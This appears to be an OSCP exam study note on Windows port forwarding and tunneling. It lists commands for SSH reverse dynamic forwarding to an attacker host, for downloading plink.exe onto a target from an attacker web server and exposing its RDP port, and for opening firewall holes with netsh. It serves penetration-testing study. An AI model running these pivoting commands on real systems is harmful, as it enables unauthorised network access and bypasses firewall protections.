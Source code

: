 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/k. Port Redirection & Tunneling/2. Windows Port Forwarding/"}
---
```


- OpenSSH comes with Windows since April 2018
- On machines with SSH installed you find: scp.exe, sftp.exe, ssh.exe, etc. in %systemdrive%\\Windows\\System32\\OpenSSH
-----
## SSH Remote Dynamic Port Forwarding:
1. Start SSH server on attacker machine:
```bash
sudo systemctl start ssh
```
2. Locate ssh.exe in cmd on target:
```powershell
where ssh
```
3. Check version of ssh:
```powershell
ssh.exe -V
```
4. Set up port forwarding:
```bash
ssh -N -R 2345 crabfeather@192.168.45.180
```
5. Use with proxychains and win!

-----------
## Plink.exe Remote Port Forwarding + RDP binding:
1. Download the plink.exe binary to the target:
``` bash
#Start server:
sudo systemctl start apache2

#Download binary:
powershell wget -Uri http://192.168.45.X/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
2. Start port forwarding (use Windows' loopback IP + its listening RDP port to be able to use RDP from kali):
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:2345:<outip>:<outport> <kali-ip>
```
Example: Port forwarding using Windows' loopback IP + its listening RDP port to be able to use RDP from kali:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:4455:127.0.0.1:3389 <kali-ip>
```

------------------
## Netsh local port forwarding + firewall poking:
- Requires Administrative privs
1. Set up port forwarding:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.230.64 connectport=22 connectaddress=10.4.230.215
```
2. Confirm it is working:
```powershell
netsh interface portproxy show all
```
3. Poke hole in firewall outwards:
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.230.64 localport=2222 action=allow
```
4. Delete rules afterwards:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
